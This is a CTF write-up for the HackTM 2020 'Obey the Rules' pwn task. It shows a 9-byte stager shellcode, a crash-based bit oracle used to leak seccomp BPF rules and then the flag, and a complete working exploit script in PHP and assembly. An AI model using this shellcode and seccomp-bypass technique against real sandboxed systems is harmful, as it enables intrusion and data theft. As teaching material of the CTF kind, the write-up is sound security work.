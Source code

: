# Obey the Rules - HackTM 2020 Quals
## Introduction

Obey the Rules is a pwn task.

The goal of this task is to read a file, `/home/pwn/flag.txt`. The binary
provided will execute a user-provided shellcode, but it is protected by seccomp
rules. The rules are not given to challengers.


## 9-bytes Shellcode

The binary prints an ASCII art of a book, and asks to the user whether they obey
or not.

The user's input is read in a 11-bytes buffer. It is then compared against `Y`
with `strcmp`. If it does not, (i.e. if the buffer does not start with `Y\x00`)
the process will execute `/bin/sh`. This will result in the process being killed
due to the seccomp filters.

If the buffer does start with `Y\x00`, the first NULL byte (found with `strlen`)
is replaced with an other `Y`, and the buffer is executed as a shellcode.

When the shellcode is called, `rax` points to the begining of the rwx-mapped
memory area that holds the shellcode. This can be leveraged to overwrite the
shellcode with a longer shellcode using `read`.

```
0000:	59   	pop    rcx     // first Y
0001:	59   	pop    rcx     // NULL, replaced by Y

0002:	31 ff	xor    edi,edi // fd  = 0
0004:	48 96	xchg   rsi,rax // buf = map
0006:	31 c0	xor    eax,eax // syscall = 0 (SYS_read)
0008:	0f 05	syscall
000A:	90	nop
```

## Leaking the seccomp rules

With a longer shellcode, it is possible to issue any syscall. However, almost
every syscalls appear to be blocked by the seccomp rules, including `write`.

It is possible to exfiltrate a bit by terminating the program, either with a
segmentation fault (jumping to invalid memory) or with a trap to debugger
(`int3`, invoking an uncaught `SIGTRAP`)

This oracle can be used to exfiltrate the content of the seccomp rules that
are referenced in a global variable.

The disassembled BPF program used as a filter is the following:
```
l0:	ld [4]
l1:	jeq AUDIT_ARCH_X86_64, l2, l12

l2:	ld [0]
l3:	jge #0x40000000, l12, l4

l4:	jeq SYS_open, l11, l5
l5:	jeq SYS_exit, l11, l6
l6:	jeq SYS_read, l7, l12

l7:	ld [16]
l8:	jeq #0x3, l9, l11

l9:	ld [24]
l10:	jeq #0x602888, l11, l12
l11:	ret #0x7fff0000
l12:	ret #0
```

This filter allows:
1. open
2. exit
3. read when `fd` is not 3
4. read when `fd` is 3, and `buf` is `0x602888`

## Leaking the flag

The seccomp filters only allows the flag to be read at `0x602888` (`fd` == 3).
It is not possible to open a 4th file due to system restrictions set before
creating the process. (à la `ulimit`)

It is possible to run a shellcode that will open the flag, read it at the
correct location and use the script used previously to exfiltrate the flag.

The final shellcode can be found at `shellcode.S` in the appendices. The final
script in `pwn.php` as well as additional scripts that were used to convert
formats (binary digits, BPF, and ascii)

**Flag**: `HackTM{kn0w_th3_rul3s_we11_s0_y0u_c4n_br34k_th3m_EFFECTIVELY}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php // vim: filetype=php
require_once "/home/user/ctf/tools/pwn/phplib/hexdump.php";
require_once "/home/user/ctf/tools/pwn/phplib/tubes/Process.php";
require_once "/home/user/ctf/tools/pwn/phplib/tubes/Socket.php";

const HOST = "138.68.67.161";
const PORT = 20001;

$t = new Socket(HOST, PORT);
$t->expectLine("");
$t->expectLine("           === OBEY THE RULES 1.0 ===");
$t->expectLine("           --------------------------");
$t->expectLine("");
$t->expectLine("    __________________   __________________");
$t->expectLine(".-/|                  \ /                  |\-.");
$t->expectLine("||||    NEW RULES:     |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||__________________ | __________________||||");
$t->expectLine("||/===================\|/===================\||");
$t->expectLine("`--------------------~___~-------------------''");
$t->expectLine("");


$t->expectLine("   >> Do you Obey? (yes / no)");

$payload  = "Y\x00"; // pop rcx, pop rcx

$payload .= "\x31\xFF"; // xor edi, edi
$payload .= "\x48\x96"; // xchg rsi, rax
$payload .= "\x31\xC0"; // xor eax, eax (SYS_read)
$payload .= "\x0F\x05"; // syscall
$payload  = str_pad($payload, 0x0B, "\x90");

$shellcode = file_get_contents("shellcode");
$shellcode = str_replace("BBBB", pack("V", $argv[1]), $shellcode);
$payload  .= str_repeat("\x90", strlen($payload));
$payload  .= $shellcode;
$t->write($payload);


$line = $t->readLine();
if($line === "Segmentation fault (core dumped)")
	echo "0";
else if($line === "Trace/breakpoint trap (core dumped)")
	echo "1";
else
	echo "?";
echo "\n";
```

### shellcode.S
```asm
.intel_syntax noprefix
.global _start

_start:
	lea rdi, [rip + filename]
	mov rsi, 0
	mov rax, 0 // SYS_open
	syscall
	// rax == 3

	mov rdi, rax
	mov rsi, 0x602888 // backdoor
	mov rdx, 0x80
	mov rax, SYS_read
	syscall

	// placeholder
	mov ecx, 0x42424242

	// al = target[bit >> 3]
	mov rdi, rcx
	shr rdi, 3
	add rdi, 0x602888
	mov al, byte ptr [rdi]

	and cl, 7
	shr al, cl
	and al, 1

	jnz true
	push 0
	ret

true:
	int3

filename: .asciz "/home/pwn/flag.txt"
```

### convert.php
```php
#!/usr/bin/php
<?php
$byte = 0;
$bit  = 0;

while(true) {
	$r = trim(fgets(STDIN));
	if(feof(STDIN))
		break;

	$byte |= (int)$r << $bit;
	$bit++;

	if(8 === $bit) {
		echo chr($byte);
		$byte = 0;
		$bit  = 0;
	}
}
```

### bpf.php
```php
#!/usr/bin/php
<?php
$opcodes = array();
while(true) {
	$opcode = fread(STDIN, 8);
	if(8 !== strlen($opcode))
		break;
	$opcodes[] = $opcode;
}

printf("%d", sizeof($opcodes));
foreach($opcodes as $op) {
	$a = unpack("v", substr($op, 0, 2))[1];
	$b = unpack("c", substr($op, 2, 1))[1];
	$c = unpack("c", substr($op, 3, 1))[1];
	$d = unpack("V", substr($op, 4, 4))[1];
	printf(",%d %d %d %d", $a, $b, $c, $d);
}
```
